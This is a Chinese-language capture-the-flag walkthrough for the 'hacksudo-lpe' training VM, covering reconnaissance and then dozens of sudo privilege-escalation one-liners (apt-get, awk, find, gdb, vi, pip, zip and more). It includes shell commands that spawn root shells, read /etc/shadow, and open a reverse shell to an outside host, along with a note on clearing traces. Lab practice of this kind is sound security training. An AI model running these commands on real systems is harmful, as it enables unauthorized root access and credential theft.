


# 前言

靶机：`hacksudo-lpe`

攻击：`kali`

都采用虚拟机，网卡为桥接模式

# 主机发现

使用`arp-scan -l`或`netdiscover -r 192.168.1.1/24`等工具


# 信息收集

## 使用nmap扫描端口


## 网站探测

访问默认网站


查看页面源代码，发现有提示，说在当前页面找到用户名和密码是很简单的。并且确实存在用户名`admin`以及密码`hacksudo`


扫描网站目录，因为在访问默认界面时，跳转到`login.php`，说明目录型网站，脚本语言`php`

使用`gobuster、ffuf、dirsearch、dirb、dirbuster`等工具测试

```shell
gobuster dir -u http://192.168.1.52 -w /usr/share/wordlists/dirb/big.txt -x php,bak,txt,js,html,md -b 403-404
```


访问各个目录进行查看

访问`README.md`，给出这个登录时的信息，并且怎么使用等信息


访问`accounts.html`，发现直接显示以登录，并且可以上传图片


访问`challenge`，发现是一个类似于靶场的过关，且可能是`docker`搭建，在其中发现有的文件指向`https://192.168.1.52:4200`，文件太多，这里暂且记住


访问`img`目录，发现在`accounts.html`中的一张图片，猜测上传的话，可能是到此目录


访问`product.html`，发现也是直接以`admin`登录，并且可以删除和添加


访问其添加时，发现也是可以上传图片


访问`https://192.168.1.52:4200`，是一个在线`shell`


# 漏洞寻找

以用户`admin`和密码`hacksudo`登录`login.php`，发现跳转到`challenge`


不过确实在`challenge`中发现跳转到`4200`端口的链接，不过这有点多，先测试图片上传

测试发现两个可能图片上传的`html`界面，并不能进行上传操作，那么结合收集的信息，还是需要测试`challenge`


# 提权(基于sudo)

## apt-get提权

点击上图中的`challenge1`，给出一个可点超链接，并提示第一关是`apt-get`提权


点击后给出登录信息，并且点击`browser console`后，跳转`4200`端口，也就是使用这个账户密码可以登录


测试可以登录


虽然给出是`apt-get`提权，但还是使用`find`搜索，然后`sudo -l`


对于这个提权方式，网页中给了链接，可以在这个链接中学习如何使用，但是国外访问，太卡，使用`gtfobins.github.io`网站学习，三种方式


###### 方式一

```shell
sudo apt-get changelog apt
!/bin/sh
```

进入后，直接键盘输入`!/bin/sh`即可使用`root`唤起一个shell


###### 方式二

```shell
TF=$(mktemp)
echo 'Dpkg::Pre-Invoke {"/bin/sh;false"}' > $TF
sudo apt-get install -c $TF sl
```


###### 方式三

```shell
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

获取`flag`为`viluhacker`


返回输入`flag`，提示完成


然后点击就是下一关


## arp提权

使用提供的用户名和密码登录，估计后面都是使用`sudo -l`查看，然后提权


查看`arp`提权方式，这个其实就是可以越权查看文件，可以查看`shadwo`等文件，然后破解


```
LFILE=/root/root.txt
sudo arp -v -f "$LFILE"
```

这里是以为知道放在这里，所以直接查看这个文件


###### 疑问

不过难道要这样一关一关的去解题吗，最终的`flag`都一样

尝试使用`user1`以及密码测试`ssh`能否可登录，发现可以，啧



然后发现操作与在`4200`端口操作一样，就可以提权至`root`，怀疑不是靶机，是靶机上的`docker`

使用`ip addr`查看`ip`信息，存在，估计就是了


但是测试退出`docker`的方法，使用`exit`或者`ctrl+d`都没有退出，说明可能不是在`docker`中，

经过一番搜索，`docker`也没有镜像，整蒙了，难道这里不是容器化，直接进入本机？

网上看了wp，确实，啧。这个主要是进行提权训练的。

那么就走下去，学习嘛

## awk提权


```shell
sudo awk 'BEGIN {system("/bin/sh")}'
```



## base32提权

这里是以读取文件为主


```shell
LFILE=/etc/shadow
sudo base32 "$LFILE" | base32 --decode
```


## base64提权

与前面的`base32`差不多


## cat提权

也是越权读取文件，并不能直接唤起shell终端


## comm提权

也是越权读取文件

```shell
file="/etc/shadow"
sudo comm $file /dev/null 2>/dev/null
```


## cp提权

这个方式很多


###### 方式一

越权复制、读取文件


###### 方式二

越权写入文件

```shell
LFILE="/root/root.txt"
TF=$(mktemp)
echo "DATA" > $TF
sudo cp $TF $LFILE
```


###### 方式三

越权复制`bash`，获取`shell`

```shell
sudo cp /bin/sh /bin/cp
sudo cp
```

不过这里`cp`处于忙碌状态，把进程杀死后，也不行，所以暂时搁置


## curl提权


简单来说，就是可以通过这个命令下载一些文件、脚本等


但是因为是提权下载，这里我暂时还没理解可以做什么


## cut提权


`cut` 命令在 Linux 中主要用于从文本文件或者标准输入中提取特定列或者字段。它可以按照字节（`-b` 选项）、字符（`-c` 选项）或者字段（`-f` 选项）来进行切割操作，`-d`选项用于指定输入文本的字段分隔符


## dash提权

`dash`与`bash`和`sh`都是linux中的终端一种，平常使用`bash`偏多，不过这里的`sh`可能是软链接，最终指向的可能还是`dash`。


## date提权

```shell
LFILE="/etc/shadow"
sudo date -f $LFILE
```

主要用于越权查看文件


## diff提权


```
LFILE="/etc/shadow"
sudo diff --line-format=%L /dev/null $LFILE
```


## find提权


```shell
sudo find . -exec /bin/sh \; -quit
```


## ftp提权


在其加载界面时输入`bash`


## gcc提权

```shell
sudo gcc -wrapper /bin/sh,-s .
```


## gdb提权

```shell
sudo gdb -nx -ex '!sh' -ex quit
```


## ip提权


主要分两种，读取和获取shell

###### 读取

```shell
sudo ip -force -batch "/etc/shadow"
```


###### 获取shell

```shell
sudo ip netns add foo
sudo ip netns exec foo /bin/sh
sudo ip netns delete foo	//退出提权后清除痕迹
```


```shell
sudo ip netns add foo
sudo ip netns exec foo /bin/ln -s /proc/1/ns/net /var/run/netns/bar
sudo ip netns exec bar /bin/sh
sudo ip netns delete foo
sudo ip netns delete bar
```


## pip提权

```shell
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

这里靶场有问题，没有`pip`这个命令，所以无法提权

## perl提权

```shell
sudo perl -e 'exec "/bin/sh";'
```


## socket提权

基本上这个具有SUID命令，表示可以正向或反向连接，主要的就是反向连接

###### 反向连接

```shell
RHOST=192.168.1.16
RPORT=1234
socket -qvp '/bin/sh -i' $RHOST $RPORT
```


###### 正向连接

```shell
LPORT=1234
socket -svp '/bin/sh -i' $LPORT
```


## vi提权

```shell
sudo vi -c ':!/bin/sh' /dev/null
```


## view提权


三种方式，不过有条件

###### 方式一

```shell
sudo view -c ':!/bin/sh'
```


###### 方式二

`python`方式

```shell
sudo view -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```


###### 方式三

`lua`方式

```shell
sudo view -c ':lua os.execute("reset; exec sh")'
```


## wget提权

```shell
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```


## watch提权

````shell
sudo watch -x sh -c 'reset; exec sh 1>&0 2>&0'
````


## xxd提权

```shell
LFILE="/etc/shadow"
sudo xxd "$LFILE" | xxd -r
```

主要用于越权读取


## zip提权

```shell
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF								//清除临时文件
```


